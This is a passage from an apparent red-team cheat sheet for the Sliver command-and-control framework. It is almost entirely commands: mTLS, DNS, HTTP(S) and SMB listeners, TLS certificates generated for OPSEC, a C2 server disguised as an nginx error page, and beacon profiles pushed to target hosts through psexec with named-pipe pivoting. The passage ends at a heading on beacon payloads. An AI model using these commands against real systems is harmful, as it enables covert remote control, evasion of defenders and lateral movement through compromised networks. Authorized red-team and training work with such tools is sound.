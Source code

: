 ## 03 - Shell Handler

### 3.1 - TCP

`sliver > mtls -L <IP> -l <PORT>`

### 3.2 - DNS

`sliver > dns -d <domain>`

### 3.3 - HTTP(S)

#### 3.3.1 - Use custom TLS key and certificate (this is optional but recommended for OPSEC)

• Encrypted TLS key and certification

`$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out certificate.pem -sha256 -days 365`

• Non-encrypted TLS key and certification

`$ openssl req -new -x509 -keyout key.pem -out certificate.pem -days 365 -nodes`

`sliver > http [-d <domain.com>] -L <IP> -l <PORT>`

`sliver > https [-d <domain.com>] -L <IP> -l <PORT> -c /path/to/cert.pem -k /path/to/key.pem`

#### 3.3.2 - Disguise the C2 as a website

`sliver > websites add-content -w -p /index.html -c /home/user/nginx_error.html`

`sliver > http -w error [-d <domain.com>] -L <IP> -l <PORT>`

`sliver > websites rm-content -w error -p /index.html`

### 3.4 - SMB

`sliver > pivots named-pipe -b <pipe_name>`

`sliver > profiles new [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -l -a x64 -o windows -f service <profile_name>`

`sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -p <profile_name> <target_IP>`

* You can use a custom exe

`sliver > generate [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -a x64 -o windows -f service -s /path/to/folder`

`sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -c /path/to/shellsvc.exe -p <profile_name> <target_IP>`

## 04 - Generate Payloads

### 4.1 - Beacons
